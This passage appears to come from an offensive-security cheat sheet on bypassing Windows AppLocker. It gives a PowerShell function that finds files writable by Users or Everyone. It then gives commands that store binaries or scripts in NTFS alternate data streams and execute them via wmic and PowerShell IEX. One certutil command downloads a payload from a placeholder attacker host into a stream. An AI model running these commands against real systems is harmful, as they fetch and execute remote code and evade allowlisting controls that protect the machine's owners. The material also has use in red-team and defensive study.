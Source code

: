 ```

  return (($Rights -band $GenericRights.FILTER_GENERIC) -bor $MappedRights) -as $FSR
}

$WriteRights = @("WriteData", "CreateFiles", "CreateDirectories", "WriteExtendedAttributes", "WriteAttributes", "Write", "ModIfy", "FullControl")

Function NotLike($String, $Patterns) {  
  ForEach ($Pattern in $Patterns) { If ($String -like $Pattern) { return $False } }
  return $True
}

function Scan($Path, $OutputFile) {
  If ($OutFile) { New-Item -Force -ItemType File -Path $OutputFile | Out-Null }
  $Cache = @()
  gci $Path -Recurse -Exclude $Exclusions -Force -ea silentlycontinue |
  ? {(NotLike $_.fullname $Exclusions)} | %{
    trap { continue }
    $File = $_.fullname
    (get-acl $File -ea silentlycontinue).access |
    ? {$_.identityreference -Match ".*USERS|EVERYONE"} | %{
      (map-genericrightstofilesystemrights $_.filesystemrights).tostring().split(",") | %{
        If ($WriteRights -Contains $_.trim()) {
		  If ($Cache -NotContains $File) {
		    Write-Host $File
		    If ($OutputFile) { $File | Out-File -Append -Force -FilePath $OutFile }
			$Cache += $File
		  }
        }
      }
    }
  }
  return $Cache
}

$Paths | %{ scan $_ $OutFile }
```

If a file is writable, NTFS `Alternate Data Streams (ADS)` can be leveraged to
bypass AppLocker without overwriting the file content, as AppLocker rules do
not prevent the execution of `ADS` streams.

```
# Executables
# type being the DOS utility, not the PowerShell Out-File alias
type <BINARY> > "<LEGITIMATE_FILE>:<ADS_STREAM>"
certutil.exe -urlcache -split -f http://<IP>:<PORT>/<FILE> "<LEGITIMATE_FILE>:<ADS_STREAM>"

wmic process call create "<LEGITIMATE_FILE>:<ADS_STREAM>"

# PowerShell scripts
type <BINARY> > "<LEGITIMATE_FILE>:<ADS_STREAM>"
certutil.exe -urlcache -split -f http://<IP>:<PORT>/<FILE> "<LEGITIMATE_FILE>:<ADS_STREAM>"
powershell.exe -c "Get-Content C:\Windows\System32\spool\drivers\color\accesschk64.exe -Stream tmp.ps1 | IEX"
```
